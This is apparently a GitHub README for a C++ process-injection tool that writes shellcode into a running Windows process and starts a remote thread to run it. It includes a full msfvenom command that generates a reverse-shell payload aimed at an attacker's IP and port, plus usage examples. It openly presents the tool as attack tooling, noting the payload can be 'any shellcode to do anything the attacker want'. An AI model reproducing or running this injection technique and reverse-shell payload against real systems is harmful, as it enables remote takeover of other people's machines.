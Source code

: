 # Simple-Code-Injection
A simple DLL code injection project writing in C++ using Windows API functions to inject malicious payload to process running on Windows system. The program will open a handle of target running process by it's name, then allocate a memory region and copy the payload into it. Finnally, it will create a new thread on target process to execute the payload to establish a reverse connection

Generate payload from msfvenom:

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker's ip> LPORT=<attcker's port> -f c```

Usage:

```simple.exe <process's name>```

Example:

```simple.exe calc.exe```

*Note: you need to have the target process running before execute the program to be able to inject payload into it*
*Note: the payload can be any shellcode to do anything the attacker want, just modify it. The example payload i used is generated by msfvenom to make a reverse shell"*
